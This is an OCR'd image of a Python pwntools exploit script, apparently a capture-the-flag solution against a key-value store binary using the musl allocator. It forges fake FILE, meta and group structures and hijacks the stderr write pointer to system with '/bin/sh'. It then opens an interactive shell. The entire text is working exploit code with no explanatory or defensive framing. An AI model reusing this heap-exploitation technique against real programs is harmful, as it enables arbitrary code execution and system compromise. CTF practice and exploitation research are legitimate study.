 ```py
info('secret: ' + hex(secret))
system = libc_base + libc.symbols['system']
binsh = libc_base + next(libc.search(b'/bin/sh'))
stderr = libc_base + libc.symbols['stderr']
stdout = libc_base + libc.symbols['stdout']

for i in range(2):
    query(b'B' * 0x30)
fake_file_addr = libc_base - 0x3000 + 0x560
fake_meta_addr = libc_base - 0x2000 + 0x10
fake_group_addr = libc_base - 0x2000 + 0x40

# key
key = p64(group_addr + 0x20)
key += p64(fake_group_addr + 0x10)
key += p64(4)
key += p64(0x30)
key += p64(encrypt_original(find_collision(find_collision(b'B'))))
key += p64(0)

fake_file = b'/bin/sh\x00'
fake_file += p64(0) * 6
fake_file += p64(1)     # wbase
fake_file += p64(0)
fake_file += p64(system)    # write

maplen = 1
sizeclass = 8
last_idx = 0
freeable = 1
fake_meta = p64(fake_group_addr + 0x10 + 0x80)      # prev
fake_meta += p64(stderr)                            # next
fake_meta += p64(fake_group_addr)                   # fake_meta->mem
fake_meta += p64(0)                                 # fake_meta->avail_mask
fake_meta += p64(last_idx + (freeable << 5) + (sizeclass << 6) + (maplen << 12))
fake_meta += p64(0)

fake_group = p64(fake_meta_addr)
fake_group += p64(1)
fake_group += p64(0)

value = fake_file.ljust(0x1000 - 0x560, b'\x00')
value += p64(secret).ljust(0x10, b'\x00')
value += fake_meta
value += fake_group
value += b'\x00' * 0x530

store(key, value, key_size=0x30, value_size=len(value))
# query(p64(group_addr + 0x20) + p64(fake_group_addr + 0x90) + p64(4) + p64(0x30) +
#       p64(encrypt_original(find_collision(find_collision(b'B')))) + p64(0), key_size=0x30)
info('fake chunk address: ' + hex(fake_group_addr + 0x90))
info('stderr: ' + hex(stderr))
info('group address: ' + hex(group_addr))
info('mmap space: ' + hex(mmap_addr))
delete(find_collision(find_collision(b'B')))

io.interactive()
```
